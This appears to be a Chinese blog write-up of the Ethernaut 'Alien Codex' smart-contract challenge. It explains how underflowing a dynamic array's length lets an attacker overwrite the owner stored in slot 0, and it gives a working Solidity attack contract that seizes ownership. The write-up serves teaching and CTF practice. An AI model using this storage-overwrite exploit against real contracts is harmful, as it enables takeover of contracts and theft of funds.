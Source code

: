 ```yaml
---
title: 'ethernaut.openzeppelin合约安全闯关-14'
date: 2022-12-16 12:42:15
tags:
- '区块链技术'
- '智能合约安全'
categories:
- '智能合约安全'

---
```


<!-- more -->

#### 第十九关 Alien 思路与POC

#### 目标: 更改合约的拥有者

##### 先看代码:

##### 可是似乎合约中并没有任何变量存储合约的部署者地址如何更改呢,但是注意看此合约继承了Ownable合约.实际上合约的部署者地址就存储在Ownable合约中的_owner变量中

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import '../helpers/Ownable-05.sol';

contract AlienCodex is Ownable {
   //由于此合约继承了Ownable所以实际上address private _owner 和下面的这个contact变量就存在此合约的slot0中   
  bool public contact;   
  // solidity中字节数组如果没有指定元素数量的话默认空间长度就是对应合约存储空间2^256 -1
  bytes32[] public codex; 

  modifier contacted() {
    assert(contact);//判断contact变量是否为true,否则revert
    _;
  }
  
  function make_contact() public {
    contact = true;
  }

  function record(bytes32 _content) contacted public {
    codex.push(_content);
  }

//看起来我们没有直接的方式修改private _owner变量,但是注意看这个方法
  function retract() contacted public {
  /*
  如果字节数字为空的情况下再减去元素是不是就内存溢出了呢？
  那么现在如果想要修改slot0的数据是不是可以:
  codex[2^256-1(合约存储槽总长度) - keccak256(1) + 1(溢出的字节数组长度为-1所以此处+1读取下标0)] = data
  
 question1: 为什么字节数组长度可以为负? 
   其实是因为 EVM 不会验证一个数组的长度
 question2: 为什么此时字节数组能够根据下标位置对应修改slot0的数据?
   因为此时的数组是溢出的,此时的字节数组[下标]-1已经对应了整个合约的slot 2^256 - 1长度存储空间.
 question3: 为什么字节数组下标需要这么麻烦呢 不是直接 1 2 3 呢
   比如: 
   codex[ keccak256(1) ] = codex[0]
   codex[ keccak256(2) + 1] = codex[1]
  因为字符串或字节类型存放的数据大小在EVM编译器来看是不可预知的,无法在编译期直接确定其存储位置.因此 Solidity 在编译动态数字、字典数据时采用的是特定算法。
   */
    codex.length--;
  }

  function revise(uint i, bytes32 _content) contacted public {
    codex[i] = _content;
  }
}
//部分Ownable合约代码
abstract contract Ownable is Context {
    address private _owner;
```

##### poc思路:point_right:：所以我们需要做的就是使字节数组溢出,根据 make_contact ->  retract ->  revise 这个调用顺序

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import "./AlienCodex.sol";

contract hackAlien {

 AlienCodex public alien   = AlienCodex(0x48a57CBA06d5AE4e82a13e39465fB82cAD0c4DC8);

//计算动态数组下标与slot0的对应位置
uint public index = ((2 ** 256) - 1) - uint(keccak256(abi.encode(1))) + 1;

 function byteOverflow(address  _owner) external   { 
     //满足条件
     alien.make_contact();
     //构造字节数组溢出
     alien.retract();
     //利用溢出修改slot0数据
     bytes32 owner = bytes32(uint256(uint160(_owner)));
     alien.revise(index , owner);

 }
}
```

```js
await contract.owner() //查看owner是否更改成功
```



#### 还要说的一点就是:这种字节数组直接.length -- 这种操作再solidity0.6.0开始就已经被禁止:shield:
